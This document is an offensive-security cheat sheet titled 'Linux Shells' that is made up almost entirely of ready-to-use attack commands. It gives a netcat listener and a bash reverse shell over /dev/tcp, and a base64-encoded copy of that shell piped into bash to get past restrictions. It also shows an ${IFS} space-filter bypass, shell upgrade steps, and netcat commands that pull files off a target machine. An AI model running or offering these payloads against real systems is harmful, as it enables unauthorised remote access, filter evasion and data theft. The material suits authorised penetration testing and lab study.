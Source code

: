 <# Linux Shells

All things linux shells

## Basic Reverse Shell

### Start Listener

```bash
rlwrap -crA nc -lvnp 9001
```

**Note:** Prepending `rlwrap` provides a more user-friendly shell experience

### Launch Connection

```bash
# Basic bash reverse shell
bash -i >& /dev/tcp/$IP/9001 0>&1
```

**Note:** Try different payloads from [RevShells](https://www.revshells.com) if a simple bash one doesn't work

```bash
# Base64 encode if necessary (can potentially allow us to bypass certain restrictions)
echo 'bash -i >& /dev/tcp/192.168.1.10/9001 0>&1' | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTAvOTAwMSAwPiYxCg==
```

We can now use the following payload:

```bash
echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTAvOTAwMSAwPiYxCg==' | base64 -d | bash
```

### Upgrade Shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo; fg
ENTER
export TERM=xterm
```

**Note:** `export TERM=xterm` allows you clear screen with `ctrl+l`

### Filter Bypass

```bash
# Space filters, replacing spaces with `${IFS}` (possibly `${IFS%??}` if that doesn't work)
echo${IFS}'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTAvOTAwMSAwPiYxCg=='${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash
```

### Download files

```bash
# On kali
nc -lvnp 1234 > example.txt

# On target
nc 192.168.1.10 1234 < example.txt
```

